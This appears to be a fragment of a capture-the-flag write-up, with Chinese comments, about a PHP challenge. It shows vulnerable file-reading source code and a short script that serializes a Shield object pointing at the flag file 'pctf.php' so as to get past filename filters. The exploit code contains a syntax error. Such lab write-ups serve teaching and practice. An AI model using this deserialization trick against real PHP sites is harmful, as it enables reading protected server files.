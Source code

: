 ```php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>

<!-- showimg.php -->
<?php
	$f = $_GET['img'];
	if (!empty($f)) {
		$f = base64_decode($f);
		if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
		//stripos — 查找字符串首次出现的位置（不区分大小写）
		&& stripos($f,'pctf')===FALSE) {
			readfile($f);
		} else {
			echo "File not found!";
		}
	} //showimg这一段禁止了目录穿越以及禁止直接包含pctf文件
```

**思路分析**

```php
<?php

require_once('shield.php');
$x = class Shield();
$g = serialize($x);
echo $g;

?>

<!-- shield.php -->
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = 'pctf.php') {
            $this -> file = $filename;
        }
        
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE  
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>
```
